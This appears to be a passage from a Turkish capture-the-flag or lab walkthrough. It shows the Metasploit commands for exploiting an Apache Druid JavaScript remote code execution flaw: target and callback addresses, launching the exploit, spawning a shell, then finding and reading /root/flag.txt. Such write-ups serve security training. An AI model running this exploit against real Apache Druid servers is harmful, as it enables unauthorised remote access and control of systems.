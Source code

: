     Çıkan sonuçlardan ilgili exploit modülünü kullan:

    ```text
    use exploit/linux/http/apache_druid_js_rce
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 10.129.215.58
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Flag dosyasının konumunu bulmak için aşağıdaki komutu çalıştır:

    ```bash
    sudo find / -name flag.txt -type f 2> /dev/null
    ```

    ```text title="Output"
    /root/flag.txt
    ```

    Bulunan dosyanın içeriğini görüntülemek için aşağıdaki komutu çalıştır:

    ```bash
    cat /root/flag.txt
    ```
